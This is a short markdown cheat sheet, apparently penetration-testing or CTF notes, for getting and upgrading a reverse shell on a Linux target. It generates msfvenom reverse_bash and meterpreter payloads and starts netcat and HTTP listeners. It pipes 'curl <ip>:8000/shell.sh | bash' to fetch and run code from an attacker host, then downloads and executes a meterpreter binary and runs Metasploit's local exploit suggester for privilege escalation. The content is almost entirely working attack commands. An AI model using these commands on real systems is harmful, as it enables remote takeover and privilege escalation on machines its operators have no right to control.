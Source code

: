 
# Using Python Pty
```bash
#In the dumb shell
python -c 'import pty; pty.spawn("/bin/bash")'

# ^Z to stop the netcat session. Then type
stty raw -echo; fg
```

# Metasploit (Linux):
**Generate your payloads:**
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=1234 -f raw > shell.sh

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.bin
```

**Start listener and server:**
```bash
python3 -m http.server
nc -nlvp 1234
```

**Use your unstable shell to download the stable shell bin:**
```bash
curl <ip>:8000/shell.sh | bash
```

**Start your meterpreter listener:**
```bash
set payload linux/x86/meterpreter/reverse_tcp
use exploit/multi/handler
exploit
```

**Download your meterpreter payload and run it:**
```bash
curl -o /tmp/shell.bin <ip>:8000/shell.bin
chmod +x /tmp/shell.bin
cd /tmp
./shell.bin
```

**Elevate the shell's permissions:**
```bash
^Z
use post/multi/recon/local_exploit_suggester
exploit
```
